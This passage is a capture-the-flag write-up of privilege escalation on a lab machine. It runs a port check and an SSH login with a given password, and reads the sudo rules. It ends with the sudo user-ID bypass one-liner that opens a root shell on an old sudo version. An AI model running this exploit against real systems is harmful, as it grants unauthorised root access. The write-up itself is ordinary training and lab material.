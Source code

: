 It's already clear that there is ssh running on localhost. Using `ss -lnpt` to check the port.

```bash
State          Recv-Q          Send-Q                    Local Address:Port                     Peer Address:Port          
LISTEN         0               128                           127.0.0.1:2222                          0.0.0.0:*             
LISTEN         0               128                           127.0.0.1:80                            0.0.0.0:*             
LISTEN         0               128                       127.0.0.53%lo:53                            0.0.0.0:*             
LISTEN         0               128                           127.0.0.1:34517                         0.0.0.0:*             
LISTEN         0               128                             0.0.0.0:22                            0.0.0.0:*             
LISTEN         0               5                             127.0.0.1:631                           0.0.0.0:*             
LISTEN         0               128                                [::]:22                               [::]:*             
LISTEN         0               5                                 [::1]:631                              [::]:*             
```

Using ssh to login to port 2222 with password *industryweapon*

```bash
ssh robert@localhost -i id_rsa.pub -p 2222
```

Once logged in, `sudo -l` reveals:

```bash
Matching Defaults entries for robert on ec96850005d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on ec96850005d6:
    (ALL, !root) NOPASSWD: /bin/bash

```

*!root* is a quite eye catchable as there is an [exploit](https://www.exploit-db.com/exploits/47502) that uses this to get root access. Checking the sudo version.

```bash
sudo  -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

This is exploitable. Using the below command for getting root user.  

```bash
sudo -u#-1 /bin/bash
```
The flag is located at */root/user.txt*
